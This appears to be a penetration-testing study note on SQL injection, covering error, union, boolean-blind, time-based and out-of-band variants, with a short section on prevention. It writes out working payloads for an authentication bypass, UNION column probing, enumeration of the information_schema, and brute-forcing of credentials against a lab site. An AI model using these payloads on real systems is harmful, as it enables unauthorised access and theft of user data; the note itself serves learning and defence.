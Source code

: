 ```yaml
---
title: SQLi
---
```


_[SQL](/knowledge/databases/mysql-cheatsheet.md) Injection_ is an attack on a web application DB server that causes malicious queries to be executed through the input that hasn't been properly validated.

Malicious queries can be used to steal, delete or alter private and customer data and also attack the web applications authentication methods to private or customer areas.

## Example of SQLi

We have a blog post that is available under the URL:

```
https://website.thm/blog?id=1
```

We can see that the blog entry is selected with the `id` query param. We can guess the SQL statement used to retrieve the article from the DB is something like this:

`SELECT * from blog where id=1 and private=0 LIMIT 1;`

SQL Injection is introduced when **user input is introduced into the DB query**, In this case, it's the `id` parameter.

Let's pretend article `id=2` is still locked as private, so it cannot be viewed on the website. We could now instead call the URL:

```sh
https://website.thm/blog?id=2;--
```

Which would then, in turn, produce the SQL statement:

```sql
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
```

## In-band SQLi

_[In-Band](/knowledge/OffSec/glossary/in-band-out-band.md) SQL Injection_ is the easiest type to detect and exploit.

### Error-Based SQL Injection

Obtaining information about the DB structure as error messages from the DB printed directly to the browser screen.

The key to **discovering** error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced (most commonly `'` or `"`).

### Union-Based SQL Injection

This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page.

## Blind SQLi

_Blind SQLi_ is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not. This is because the error messages have been disabled, but the injection still works regardless. All we need is a **little bit of feedback** to successful enumerate a whole DB.

### Authentication Bypass

Often times login forms that are connected to a DB of users aren't interested in the content of the username and password but more whether the two make a matching pair in the users table.

With that in mindy, it's unnecessary to enumerate a valid username/password pair. We just need to create a DB query that replies with a `true`.

Let's say we have the query:

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

To make this into a query that always returns as true, we can enter the following into the password field:

```sql
' OR 1=1;--
```

Which turns the SQL query into the following:

```sql
select * from users where username='' and password='' OR 1=1;
```

`1=1` is a true statement so the query will _return_ `true`.

### Boolean-based Blind SQLi

_Boolean-based_ SQLi refers to the response we receive back from our injection attempts which is `boolean` (in any form). That boolean value says if SQL Injection [payload](/knowledge/OffSec/glossary/payload.md) was successful or not.

With just two possible outcomes, it's possible to enumerate a whole DB structure and contents.

Let's say we have the SQL query that processes the login form to see if the username is already _taken_:

```sql
select * from users where username = '%username%' LIMIT 1;
```

And we have the _boolean_ response in form of error message saying that the username is taken.

```json
{
  "taken": true
}
```

First, we establish the number the number of columns in the `users` table with [UNION](/knowledge/databases/mysql-cheatsheet.md#UNION) statement:

```sql
admin123' UNION SELECT 1;--
```

If `taken === false`, we can confirm this is the incorrect value of columns. Keep on adding more columns until we have `taken === true`:

```sql
admin123' UNION SELECT 1,2,3;--
```

When the number of columns has been established, we can work on the enumeration of the DB.

First, we need to discover the DB name. We can do this by using the built-in [database()](/<knowledge/databases/mysql-cheatsheet.md#database()>) method and then using the [UNION](/knowledge/databases/mysql-cheatsheet.md#UNION) operator to try and find results that will return a true status:

```sql
admin123' UNION SELECT 1,2,3 where database() like 'a%';--
```

`In the example above, we try to see if the DB name starts with`a`. We can cycle through all the letters, numbers and `-`and`_` characters until we discover a match. Thanks to that we can \_brute-force_ the name of the DB.

When we have established the DB name, we can use it to enumerate table names using a similar method by utilising the [information_schema](/knowledge/databases/mysql-cheatsheet.md#information_schema) DB:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' and table_name like 'a%';--`
```

This query looks for results in the `information_schema` DB in the `tables` table where the DB name matches `sqli_three`, and the table name begins with `a`. Like previously, we'll need to cycle through letters, numbers and characters until a positive match.

Let's say we've discovered a `users` table in the `sqli_three` DB this way. We can confirm its existence with the following username [payload](/knowledge/OffSec/glossary/payload.md):

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

Lastly, we need to enumerate the column names in the `users` table so we can properly search it for login credentials. Again using the `information_schema` DB and the information we've already gained, we can start querying it for column names. Using the [payload](/knowledge/OffSec/glossary/payload.md) below, we search the `columns` table where the DB is equal to `sqli_three`, the table name is `users`, and the column name begins with `a`.

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`
```

As we're looking for multiple results, we'll have to add this to our [payload](/knowledge/OffSec/glossary/payload.md) each time we find a new column name, not to keep discovering the same one:

```sq
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`
```

Let's assume we've enumerated 3 columns this way: `id`, `username` and `password`. Now we can use them to query the `users` table for login credentials, starting with `username`, then `password`:

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%

-- username is `admin`
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Time-based SQLi

A _time-based_ blind SQL Injection is very similar to the [Boolean Based Blind SQLi](/knowledge/OffSec/pentesting/SQLi.md#Boolean-based%20Blind%20SQLi). The same requests are sent, and there is no visual indicator queries being right. In this case however, the indicator of a correct query is based on **the time the query takes to complete**.

This time delay is introduced by using built-in methods such as [sleep()](/<knowledge/databases/mysql-cheatsheet.md#sleep(x)>) alongside the [UNION](/knowledge/databases/mysql-cheatsheet.md#UNION) statement. `sleep` will only get executed upon a successful `UNION SELECT` statement, for example:

```sql
admin123' UNION SELECT SLEEP(5);--
```

If there was no pause in the response time, we know that the query was unsuccessful, so we add another column:

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

This payload should have produced a 5-second time delay, which confirms the successful execution of the UNION statement and that there are two columns.

Thanks to that we could go through enumeration process similar to the one in the [Boolean-based Blind SQLi](/knowledge/OffSec/pentesting/SQLi.md#Boolean-based%20Blind%20SQLi), adding the `SLEEP()` method into the `UNION SELECT` statement:

```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
```

## Out-of-band SQLi

_[Out-of-Band](/knowledge/OffSec/glossary/in-band-out-band.md)_ SQLi isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.

## Preventing SQLi

- Prepared Statements (With Parameterized Queries):
  - the first thing a developer writes is the SQL query and then any user inputs are added as a parameter afterwards
    - this ensures that the SQL code structure doesn't change and the database can distinguish between the query and the data
- Input validation
  - an allow list can restrict input to only certain strings
  - a string replacement method in the programming language can filter the disallowed characters out
- Escaping User Input
  - prepending a `\` to special characters characters causes them to be parsed just as a regular string and not a special character
